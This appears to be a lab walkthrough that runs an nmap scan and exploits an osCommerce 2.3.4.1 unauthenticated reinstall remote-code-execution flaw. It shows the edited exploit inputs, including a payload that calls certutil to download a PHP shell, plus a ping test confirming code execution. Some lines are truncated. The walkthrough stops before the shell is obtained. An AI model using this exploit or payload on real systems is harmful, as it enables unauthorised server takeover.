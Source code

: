#Windows # #


**NMAP Scan**

```sh
  nmap -sV -sC -p- 10.10.83.191
  ```

- To see the versions of the services running (**-sV**)
- To perform a script scan using the default set of scripts (**-sC**)
- To scan all ports from 1 through 65535 (**-p-**)


 Open Ports

* ?
* ?

Port 8080/tcp is open, it takes us to the following website.


![image](https://user-images.githubusercontent.com/99097743/170898695-0f88913c-e395-43be-a7f8-ded690c878f7.png)

OSCommerce is an e-commerce and online store-management software program

(Ref: https://en.wikipedia.org/wiki/OsCommerce)



A quick **serchsploit** search on **osCommerce 2.3.4** shows the following vulnerabilities:

![image](https://user-images.githubusercontent.com/99097743/170889834-7bc4cd09-df46-41b0-ac76-48e7dc3e57ae.png)

**Exploit title: osCommerce 2.3.4.1 - Remote Code Execution (PATH: php/webapps/44374.py)**

* It is an interesting exploit as it does not require credentials.
* An unauthorized attacker can reinstall, ff installation directory has not been removed.  
* During the reinstallation process, OS commerce does not attempt to do any authentication, it simple executes the code. 

We need to update the followings inputs:

1) base_url: base_url = "http://10.10.83.191:8080/oscommerce-2.3.4/catalog/"
2) target_url: target_url = "http://10.10.83.191:8080/oscommerce-2.3.4/catalog/install/install>
3) Payload: payload += 'exec("certutil.exe -urlcache -f 10.10.83.191:8080/shell.php shell.p>


![image](https://user-images.githubusercontent.com/99097743/170901248-239aad25-20dc-48a4-9e8d-b17b2190bffe.png)

We need to launch the exploit:

```sh
  python ./44374_modified.py
  ```

  ![image](https://user-images.githubusercontent.com/99097743/170891095-908551f8-3745-40a3-b618-8c2f0616985f.png)  
  This message means our code is injected but we need open the URL above in our browser to execute the code:
  
  ![image](https://user-images.githubusercontent.com/99097743/170891198-c029d698-81fc-4f52-bdf8-0db9b12d0dd4.png)

  
  We can follow the steps below to check the output:
  
  1) Change the paylod in the python script to a ping command for the localhost: **payload += 'exec("ping 10.18.123.93");'**
  2) Open a tcpump session and capture the ICMP packages: **sudo tcpdump -i tun0 icmp**


Great, the code is successfully getting executed! Now we need to work on the actual SHELL.PHP payload

  


